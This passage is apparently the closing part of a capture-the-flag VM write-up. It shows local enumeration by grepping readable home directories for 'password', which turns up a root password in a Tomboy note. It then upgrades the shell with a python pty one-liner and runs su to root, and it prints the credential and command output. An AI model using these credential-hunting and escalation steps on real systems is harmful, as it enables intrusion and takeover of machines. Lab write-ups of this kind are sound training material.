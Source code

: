 ## Linux Local Enumeration

Enumeration indicated <code>/home/</code> directories were readable.

Grep'ing for the string **password** discovered the following:


{% highlight bash%}
sh-3.2$ grep -R -i password /home/*

Discovered the file:

/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:  <title>Root
password</title>
/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:  <text
xml:space="preserve"><note-content version="0.1">Root password
/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:Root password
{% endhighlight %}

The file contained the root credentials.


<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Username</th>
      <th>Password</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>root</code></p></pc>
           </td>
           <td>
               <pc><p>50$cent</p></pc>
           </td>
        </tr>
      </tbody>

</table>
</div>

## Local Privilege Escalation

{% highlight bash %}
sh-3.2$ su -
standard in must be a tty
sh-3.2$ python -c 'import pty;pty.spawn("/bin/sh")'
bash-3.2$ su -
su -
Password: 50$cent

[root@localhost ~]# whoami
whoami
root
[root@localhost ~]# id
id
uid=0(root) gid=0(root)
groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
context=system_u:system_r:httpd_t:s0
{% endhighlight %}

Thanks for the VM :)
